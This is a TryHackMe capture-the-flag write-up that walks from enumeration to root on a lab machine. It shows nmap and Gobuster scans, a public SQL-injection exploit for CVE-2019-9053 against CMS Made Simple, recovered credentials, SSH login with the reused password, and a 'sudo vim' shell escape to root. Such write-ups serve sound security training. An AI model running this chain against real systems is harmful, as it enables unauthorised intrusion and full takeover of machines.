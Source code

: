 # Simple CTF -- TryHackMe Writeup -- Enumeration, Exploitation, and Privilege Escalation

## Target

- IP Address: `10.201.47.23`

---

## Nmap Enumeration

Initial scan to identify open ports:

```bash
nmap -sS 10.201.47.23
```

**Results:**

- 21/tcp → FTP (vsftpd 3.0.3)
- 80/tcp → HTTP (Apache 2.4.18)
- 2222/tcp → SSH (OpenSSH, non-standard port)

Follow-up scan for service details:

```bash
nmap -sC -sV -p 21,80 10.201.47.23
```

**Findings:**

- FTP allows **anonymous login**
- HTTP has a `/robots.txt` with hidden entries
- Apache default page is displayed

---

## Web Enumeration

Used Gobuster for directory brute-forcing:

```bash
gobuster dir -u http://10.201.47.23 -w /usr/share/wordlists/dirb/common.txt
```

**Interesting directories:**

- `/robots.txt`
- `/simple` → Running CMS Made Simple v2.2.8

Browsing `/simple` showed a login page and CMS version 2.2.8.

---

## Exploitation

CMS Made Simple v2.2.8 is vulnerable to **SQL Injection** ([CVE-2019-9053](https://www.exploit-db.com/exploits/46635)).

Ran the public exploit:

```bash
python3 exploit.py -u http://10.201.47.23/simple/
```

**Looted credentials:**

- Salt: `1dac0d92e9fa6bb2`
- Username: `mitch`
- Email: `admin@admin.com`
- Hash: `0c01f4468bd75d7a84c7eb73846e8d96`
- Password: `secret`

These credentials work for the CMS panel but deeper access is required.

---

## FTP Access

Logged in with anonymous FTP:

```bash
ftp 10.201.47.23
```

Inside the `pub` directory, found `ForMitch.txt`:

```
Dammit man... you're the worst dev I've seen. You set the same pass for the system user...
```

This hint confirms that the **system user `mitch` uses the same password (`secret`)**.

---

## SSH Access

SSH is running on port `2222`:

```bash
ssh mitch@10.201.47.23 -p 2222
```

Login successful with credentials:

```
Username: mitch
Password: secret
```

---

## Privilege Escalation

Checked for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Ran **LinPEAS** for further enumeration.  

Identified `/usr/bin/vim` as a potential escalation vector.  
According to [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#suid), root shell can be obtained by:

```bash
sudo vim -c ':!/bin/sh'
```

---

## Root Access

Successfully escalated privileges to root.  

Final flag located at:

```bash
/root/root.txt
```

---

## Key Takeaways

- Always enumerate thoroughly; FTP anonymous access revealed critical hints.
- Research CMS versions for known exploits.
- Weak developer practices (reusing credentials) enable lateral movement.
- GTFOBins is invaluable for privilege escalation.
